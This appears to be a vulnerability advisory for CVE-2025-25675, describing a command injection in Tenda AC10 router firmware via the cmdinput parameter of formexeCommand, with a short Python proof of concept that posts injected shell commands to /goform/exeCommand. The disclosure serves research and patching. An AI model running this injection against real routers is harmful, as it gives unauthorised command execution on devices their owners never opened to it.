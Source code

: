 # CVE-2025-25675

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102734

## Affected version

**AC10V1.0V15.03.06.23**

## **Vulnerability details**

The Tenda AC10V1.0V15.03.06.23 has a command injection vulnerablility located in the formexeCommand function. The str variable receives the cmdinput parameter from a POST request and is later assigned to the cmd_buf variable, which is directly used in the doSystemCmd function, causing an arbitrary command execution. The user-provided cmdinput can trigger this security vulnerability

![img](https://s2.loli.net/2025/02/15/J7GndQBPftMOVTi.png)

## **PoC**

```python
import requests

ip = '192.168.2.1:80'

url = f"http://{ip}/goform/exeCommand"

data = {'cmdinput':'echo \\'hack!!!\\';ls;'}

ret = requests.post(url, data)
```